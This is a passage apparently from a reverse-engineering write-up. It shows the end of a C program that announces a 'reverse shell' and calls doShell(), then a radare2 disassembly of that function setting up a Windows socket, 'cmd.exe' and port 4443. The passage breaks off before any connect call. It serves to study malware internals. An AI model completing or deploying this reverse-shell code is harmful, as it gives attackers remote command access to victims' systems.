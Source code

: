 ```C

}

int main(int argc, char* argv[]){

    printf("reverse shell going on: \n");

    doShell();

}
```
And here we have the disasm:

````
[0x00401550]> pdf
/ (fcn) sym.doShell 548
|   sym.doShell (int arg_3ch, int arg_50h, int arg_58h, int arg_60h, int arg_80h, int arg_82h, int arg_84h, int arg_90h, int arg_228h);
|           ; var int local_28h @ rbp-0x28
|           ; var int local_20h_2 @ rbp-0x20
|           ; var int local_18h @ rbp-0x18
|           ; arg int arg_3ch @ rbp+0x3c
|           ; arg int arg_50h @ rbp+0x50
|           ; arg int arg_58h @ rbp+0x58
|           ; arg int arg_60h @ rbp+0x60
|           ; arg int arg_80h @ rbp+0x80
|           ; arg int arg_82h @ rbp+0x82
|           ; arg int arg_84h @ rbp+0x84
|           ; arg int arg_90h @ rbp+0x90
|           ; arg int arg_228h @ rbp+0x228
|           ; var int local_20h @ rsp+0x20
|           ; var int local_28h_2 @ rsp+0x28
|           ; var int local_30h @ rsp+0x30
|           ; var int local_38h @ rsp+0x38
|           ; var int local_40h @ rsp+0x40
|           ; var int local_48h @ rsp+0x48
|           ; var int local_80h @ rsp+0x80
|           ; CALL XREF from 0x00401794 (sym.main)
|           0x00401550      55             push rbp
|           0x00401551      4881ecb00200.  sub rsp, 0x2b0
|           0x00401558      488dac248000.  lea rbp, [local_80h]        ; 0x80 ; 128
|           0x00401560      48b8636d642e.  movabs rax, 0x6578652e646d63
|           0x0040156a      488945d8       mov qword [local_28h], rax
|           0x0040156e      488d85900000.  lea rax, [arg_90h]          ; 0x90 ; 144
|           0x00401575      4889c2         mov rdx, rax
|           0x00401578      b902020000     mov ecx, 0x202              ; 514
|           0x0040157d      488b05f46c00.  mov rax, qword sym.imp.WS2_32.dll_WSAStartup ; [0x408278:8]=0x849c reloc.WS2_32.dll_WSAStartup
|           0x00401584      ffd0           call rax
|           0x00401586      c74424280000.  mov dword [local_28h_2], 0
|           0x0040158e      c74424200000.  mov dword [local_20h], 0
|           0x00401596      41b900000000   mov r9d, 0
|           0x0040159c      41b806000000   mov r8d, 6
|           0x004015a2      ba01000000     mov edx, 1
|           0x004015a7      b902000000     mov ecx, 2
|           0x004015ac      488b05bd6c00.  mov rax, qword sym.imp.WS2_32.dll_WSASocketA ; [0x408270:8]=0x848e reloc.WS2_32.dll_WSASocketA
|           0x004015b3      ffd0           call rax
|           0x004015b5      488985280200.  mov qword [arg_228h], rax   ; [0x228:8]=-1 ; 552
|           0x004015bc      66c785800000.  mov word [arg_80h], 2       ; [0x80:2]=0xffff ; 2
|           0x004015c5      b95b110000     mov ecx, 0x115b
|           0x004015ca      488b05b76c00.  mov rax, qword sym.imp.WS2_32.dll_htons ; [0x408288:8]=0x84b8 reloc.WS2_32.dll_htons
|           0x004015d1      ffd0           call rax
````